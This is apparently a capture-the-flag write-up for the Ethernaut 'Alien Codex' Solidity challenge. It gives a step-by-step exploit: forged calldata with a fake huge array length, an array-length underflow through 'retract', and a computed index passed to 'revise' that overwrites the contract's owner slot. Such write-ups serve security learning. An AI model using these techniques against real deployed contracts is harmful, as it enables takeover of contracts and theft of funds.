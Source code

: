 # Alien codex

The source for this contract is

```
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }

  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

The objective of this challenge is to set our address as the owner
of the contract.

We learned in the [Privacy](../Privacy/README.md) challenge that
variables are optimized when stored in the storage and to solve
this challenge we are going to try to modify the storage using
the `revise` function. So we can use the [script](index.js) to
check what is the state of the contract storage. If we check the
storage at `0x00` we can see

```
0x00000000000000000000000073048cec9010e92c298b016966bde1cc47299df5
```

This is the address of the owner, so the `owner` variable is stored
at `0x00`.

Because of the `contacted` modifier the only function that we can
use at this moment is `make_contact`. We need to send an array with
more than `2^200` elements in order to set the `contact` variable
to `true`. We can do this by sending an array of this size but
`2^200` is a really big number so it will take a lot of time to
forge an array like this. Luckly we can trick the evm to think
that we are actually sending a really big array using just a few
`bytes`. In order to do this we need to understand how method calls
are encoded. A good resource on this topic can be found
[here](https://medium.com/@hayeah/how-to-decipher-a-smart-contract-method-call-8ee980311603).

First of all we need the function selector for the `make_contact`
function. This can be calculated with

```
selector = first4bytes(keccak256("make_contact(bytes32[])"))
```

This wiill result in

```
selector = 0x1d3d4c0b
```

Then we need to understand how an array parameter is encoded

```
offset // 32 bytes that tells where the array start
length // 32 bytes representing the length of the array
content // The rest of the bytes represent the content of the array
```

So our array will look like this

```
0000000000000000000000000000000000000000000000000000000000000020 // The array data starts in the byte number 32
f000000000000000000000000000000000000000000000000000000000000000 // We set the length as a really big number
                                                                 // We ignore the content
```

Finaly we need to send a transaction with this data to the contract
to trick the `make_contact` function.

```
0x1d3d4c0b
0000000000000000000000000000000000000000000000000000000000000020
f000000000000000000000000000000000000000000000000000000000000000
```

Now if we call `contract.contact` in the browser console it
should return `true`. Because of this now we can use the rest
of the functions. We can check that it worked using the
[script](index.js). If we load the storage at `0x00` now we
are going to see this

```
0x00000000000000000000000173048cec9010e92c298b016966bde1cc47299df5
```

Notice that now there is a `01` just before the `owner` address,
this means that the `contact` variable is now `true`.

The `revise` function allow us to write data in the contract
storage but in order to do this we need to modify the `codex`
array length. To do this we can laverage the `retract` function.

The `retract` function decreases the length of the `codex` array
but it doesn't check for underflows. So, if the current lenght
is `0` calling the `retract` function will set the length to
`2^256 - 1`.

Now we can use the `revise` function to write arbitrary data
in the contract storage. To understand how dynamic arrays are
stored on the storage you can read [this](https://programtheblockchain.com/posts/2018/03/09/understanding-ethereum-smart-contract-storage/).
The `codex` array is located on the `0x01` slot of the storage.
This means that the content of the array will start at
`keccak256(uint256(1))` and it will be stored consecutively like
this

```
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6 => codex[0]
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf7 => codex[1]
0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf8 => codex[2]
...
0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff => codex[limit]
0x0000000000000000000000000000000000000000000000000000000000000000 => codex[limit + 1]
```

Notice that if we calculate the `limit` we can do an overflow on the
storage slots by accesing `code[limit + 1]` and because of this we can
modify the storage at `0x00` where the owner variable is stored.

Calculating the limit is easy

```
(2^256 - 1) - uint256(0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6)
```

This will result in

```
limit     = 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f309
limit + 1 = 0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a
```

Now we just need to call the `revise` function like

```
contract.revise(
  // The index to do the overflow and write to 0x00
  "0x4ef1d2ad89edf8c4d91132028e8195cdf30bb4b5053d4f8cd260341d4805f30a",
  // Your address padded to 32 bytes
  "0x000000000000000000000000692a70d2e424a56d2c6c27aa97d1a86395877b3a"
)
```